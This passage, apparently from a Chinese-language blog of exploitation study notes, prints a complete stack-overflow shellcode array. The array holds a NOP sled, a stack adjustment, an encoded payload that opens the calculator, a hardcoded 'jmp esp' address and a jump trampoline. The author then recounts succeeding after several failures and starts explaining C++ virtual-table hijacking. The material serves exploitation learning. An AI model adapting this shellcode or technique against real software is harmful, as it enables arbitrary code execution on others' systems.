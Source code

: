 经过计算偏移并做填充后，最终得到的shellcode如下：

```c
char shellcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

"\x66\x81\xEC\x40\x04" // sub sp, 0x440

"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"

// calc
"\x31\xc9\xb1\xbc\xe8\xff\xff\xff\xff\xc1\x5e\x30\x4c\x0e\x07"
"\xe2\xfa\xfd\xea\x81\x04\x05\x06\x67\x81\xec\x3b\xcb\x68\x86"
"\x5e\x3f\x9b\x43\x1e\x98\x46\x01\x9d\x65\x30\x16\xad\x51\x3a"
"\x2c\xe1\xb3\x1c\x40\x5e\x21\x08\x05\xe7\xe8\x25\x28\xed\xc9"
"\xde\x7f\x79\xa4\x62\x21\xb9\x79\x08\xbe\x7a\x26\x40\xda\x72"
"\x3a\xed\x6c\xb5\x66\x60\x40\x91\xc8\x0d\x5d\xa5\x7d\x01\xc2"
"\x7e\xc0\x4d\x9b\x7f\xb0\xfc\x90\x9d\x5e\x55\x92\x6e\xb7\x2d"
"\xaf\x59\x26\xa4\x66\x23\x7b\x15\x85\x3a\xe8\x3c\x41\x67\xb4"
"\x0e\xe2\x66\x20\xe7\x35\x72\x6e\xa3\xfa\x76\xf8\x75\xa5\xff"
"\x33\x5c\x5d\x21\x20\x1d\x24\x24\x2e\x7f\x61\xdd\xdc\xde\x0e"
"\x94\x6c\x05\xd4\xe0\x8a\x01\x08\x3c\x8f\x90\x91\xc2\xfb\xa5"
"\x1e\xf9\x10\x67\x4c\x21\x6b\x29\x3f\xc8\xf7\x06\x34\x1f\x3e"
"\x5b\x70\x9a\xa1\xd4\xa3\x2a\x50\x4c\xd8\xab\x14\xf7\xa2\xc0"
"\xdc\xde\xb5\xe5\x48\x6d\xda\xdb\xd7\xdf\xbd"

"\x90\x90\x90\x90"

// jmp esp
"\xb8\x9e\xe3\x77"

// jmp esp - X
"\x8B\xC4\x33\xDB"
"\xB3\xF0\x2B\xC3"
"\xFF\xE0\x90\x90";
```

测试：

![Bildschirmfoto 2018-07-29 um 4.23.14 PM.png]({{ site.url }}/images/0day/763B963F93FD60B4AA65CA46DC6691A1.png)

这中间，我有大概3次以为要成功了，但是测试后什么都没有出现。那时候真的是挺沮丧的，但马上就投入检查之中，并很快发现了问题所在。最终才成功完成攻击。成功弹窗的那一刻，我获得的喜悦是巨大的。

## 攻击C++的虚函数

**原理**

- C++累的成员函数在声明时，如果使用`vitrual`修饰，则被称为虚函数
- 一个类可能有多个虚函数
- 虚函数的入口地址被统一保存在虚表`Vtable`中
- 对象在使用虚函数时，先通过虚表指针找到虚表，然后从虚表中取出最终的函数入口地址
- 虚表指针保存在对象的内存空间中，紧接着虚表指针的是其他成员变量
- 虚函数只有通过对象指针的引用才能显示出其动态调用的特性

